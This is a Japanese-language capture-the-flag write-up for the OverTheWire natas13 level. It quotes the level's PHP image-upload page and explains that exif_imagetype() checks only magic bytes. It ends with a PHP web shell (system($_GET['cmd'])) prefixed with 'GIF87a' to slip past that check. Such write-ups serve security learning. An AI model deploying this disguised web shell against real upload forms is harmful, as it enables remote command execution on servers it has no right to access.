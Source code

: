 ![](img/natas13-1.png)  

natas12と同じようなページ  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


natas12では、ファイルサイズをチェックしていたがファイル形式をチェックしていないことが原因で任意ファイルをアップロードできてしまう  
というのを利用して問題を解いた。  
natas13では、`} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {`のようにファイル形式が画像かどうかを  
チェックする処理が追加されている。  

exif_imagetype関数は" exif_imagetype() を画像の先頭バイトを読み そのサインを調べます。 "とPHPマニュアルで説明されている。  

例えばgif(87a)ファイルのファイルヘッダは16進数で"47 49 46 38 37 61"、  
ASCII表記で"GIF87a"であり、  
pngファイルだと"89 50 4E 47 0D 0A 1A 0A"の".PNG...."である。  

exif_imagetype関数はファイルヘッダしかチェックしないので先頭だけ変えた悪意のあるファイルをアップロードしたらOK（かも）  

今回はASCII表記で入力しやすいGIF形式のファイルで行う。  

前回の`<?php system($_GET["cmd"]);?>`に"GIF87a"を上の行に追加した以下のようなファイルを作成し、前回と同じやり方でアップロードを行う。  
```
GIF87a
<?php system($_GET["cmd"]);?>
```

